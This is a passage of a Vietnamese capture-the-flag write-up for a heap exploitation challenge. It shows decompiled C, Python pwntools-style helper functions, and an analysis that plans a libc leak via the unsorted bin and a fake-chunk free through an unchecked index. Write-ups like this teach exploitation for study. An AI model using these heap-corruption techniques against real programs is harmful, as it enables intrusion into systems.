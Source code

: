 ```c 
        return v13 - __readfsqword(0x28u);
      default:
        continue;
    }
    while ( v8 <= 7 )
    {
      if ( !s[v8] )
      {
        s[v8] = (__int64)malloc(size);
        puts("Content: ");
        read(0, (void *)s[v8], size);
        puts("Content: ");
        printf("%s\n", (const char *)s[v8]);
        goto LABEL_2;
      }
      ++v8;
    }
  }
}
```
# Chuẩn bị
```python
def create(size, content):
        sla(b'> ', '1')
        sla(b': ', str(size).encode())
        sa(b': ', content)
def remove(idx):
        sla(b'> ', '2')
        sla(b': ', str(idx).encode())
def write(payload):
        sla(b'> ', '3')
        sa(b'fun\n', payload)
def gift():
        sla(b'> ', '4')
        p.recvuntil(b't: \n')
        return int(p.recvline(keepends = False).decode())
```
# Phân tích 
- Đầu tiên option 1 không giới hạn size, ta có thể leak libc bằng unsorted bin
- Thứ 2 option 2 không kiểm tra idx, có nằm trong khoảng 0 đến <= 7 (có thể free các địa chỉ khác)
- Thứ 3 option 3 cho phép ta viết vào vùng nhớ stack ở ngay dưới mảng lưu các địa chỉ heap
- Thứ 4 là leak stack
> từ 2 3 4 ta có thể tận dụng option 3 để fake chunk và 1 địa chỉ trỏ vào fake chunk, sau đó vì option 2 không kiểm tra idx nên ta có thể free địa chỉ trỏ đến fake chunk đó